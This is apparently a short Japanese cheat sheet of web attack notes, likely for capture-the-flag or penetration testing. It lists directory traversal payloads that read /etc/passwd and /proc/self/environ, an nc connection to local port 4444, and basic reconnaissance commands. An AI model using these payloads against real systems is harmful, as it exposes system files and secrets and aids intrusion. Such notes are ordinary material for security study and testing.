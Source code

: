 # Web

## ディレクトリトラバーサル

```bash
../../../../../../../../../../etc/passwd
../../../../../../../../../../proc/self/environ
../../../../../../../../../../proc/self/cmdline
../../../../../../../../../../proc/self/maps
```

## 使えるコマンド

```bash
nc localhost 4444
exec id

# 情報取得
id
whoami
uname -a
ls -lahF
```
